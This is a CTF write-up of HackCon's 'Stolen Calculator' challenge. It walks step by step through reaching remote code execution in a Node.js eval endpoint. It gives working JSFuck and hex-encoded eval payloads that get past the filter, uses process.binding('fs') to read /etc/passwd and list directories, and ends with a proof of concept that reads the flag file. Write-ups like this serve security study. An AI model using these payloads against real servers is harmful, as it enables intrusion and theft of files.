 # Stolen Calculator - PWN (HackCon ctf)

Description: 
### I stole this calculator from someone and made some changes because I am the plagiarism god. Bow before me now. btw wanna try it: http://defcon.org.in:9080/ Hint: This is a pwn challenge

Here we have calculator:


![](http://s016.radikal.ru/i336/1708/c3/ba35c0dd3e53.png)

If we look at calculator source code, we will see hardcoded url : 
``` urll = "http://defcon.org.in:10300/" + encodeURIComponent( strrr ); ```
But this code will never run, because there was a mistake in js file. So lets try request  this url in burp:

![](http://s019.radikal.ru/i618/1708/32/98b0f49eb8f4.png)

If we try to ``` GET /1+1 ``` we will receive 
```HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 1
ETag: W/"1-2kuSN7rMzfGcB2DKt67EqDWQELA"
Date: Wed, 30 Aug 2017 11:03:43 GMT
Connection: close

2
```

If we request some string, we will get 
```HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 3
ETag: W/"3-6zXDIdaZfDRIgpYriqHNCTmxI+E"
Date: Wed, 30 Aug 2017 11:05:08 GMT
Connection: close

err 
```
We can notice that there is eval node.js on other side by sending ``` $ ```
```
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Security-Policy: default-src 'self'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 965
Date: Wed, 30 Aug 2017 11:06:21 GMT
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: $ is not defined<br> &nbsp; &nbsp;at eval (eval at &lt;anonymous&gt; (/bf.js:21:17), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at /bf.js:21:17<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at param (/node_modules/express/lib/router/index.js:354:14)<br> &nbsp; &nbsp;at param (/node_modules/express/lib/router/index.js:365:14)<br> &nbsp; &nbsp;at Function.process_params (/node_modules/express/lib/router/index.js:410:3)</pre>
</body>
</html>
```
So WAF is blocking any string we send, but if send ``` ({}) ``` we will receive 
``` HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 15
ETag: W/"f-wdRP8Dr/E3KFbCgYVPRU4uHRW3w"
Date: Wed, 30 Aug 2017 11:08:24 GMT
Connection: close

[object Object]
```
So lets try to use JSFuck to bypass this WAF. We can convert any javascript to JSFuck with help of http://www.jsfuck.com . If we send ``` return  process.argv ```
, in JSFuck it will look like ``` GET /[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]..... ``` and so on.
We will receive ``` /usr/local/bin/node,/bf.js ```. We have RCE. 

We cant send ```require``` because it is not defined. But we can use ``` process.binding ``` instead to read/write.
But we have strong restriction in node.js. We can send get request no larger than 80kb. And if we try to send ```buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer ``` coverted to JSFuck , it will be 93369 bytes. I tried somehow to compress it, but length was still >85000.

The solution here is to use base64 or hex encode/decode and use ``` process.binding('fs').readdir('/')``` in js. Base64 will not work because there are a lot of letters in encoding , and they will be converted in larger pieces.
Convert ``` d=process.binding('fs').readdir('/etc/', 0, 0600);d; ``` to ascii hex. We will get ``` 643d70726f636573732e62696e64696e672827667327292e7265616464697228272f272c20302c2030363030293b643b```
Convert ``` var a = new Buffer("643d70726f636573732e62696e64696e672827667327292e7265616464697228272f272c20302c2030363030293b643b", "hex").toString();b = eval(a.toString()); return b``` to JSFuck and we will get 47651 chars. If we send them, we will get responce 

``` HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 152
ETag: W/"98-P8Y7q+l1+xsDl9SL2vRfvqsKG3o"
Date: Wed, 30 Aug 2017 11:33:54 GMT
Connection: close

.dockerenv,bf.js,bin,boot,dev,etc,flag.txt,home,lib,lib64,media,mnt,node_modules,opt,package-lock.json,proc,root,run,sbin,srv,startup.sh,sys,tmp,usr,var
```
Now we must read flag.txt using ```process.binding('fs').open('flag.txt', 0, 0600)```. 

## POC: 
```var a = new Buffer("627566666572203d204275666665722e616c6c6f63556e736166652838313932293b2070726f636573732e62696e64696e672827667327292e726561642870726f636573732e62696e64696e672827667327292e6f70656e2827666c61672e747874272c20302c2030363030292c206275666665722c20302c2034303936293b2020627566666572", "hex").toString();b = eval(a.toString()); return b```
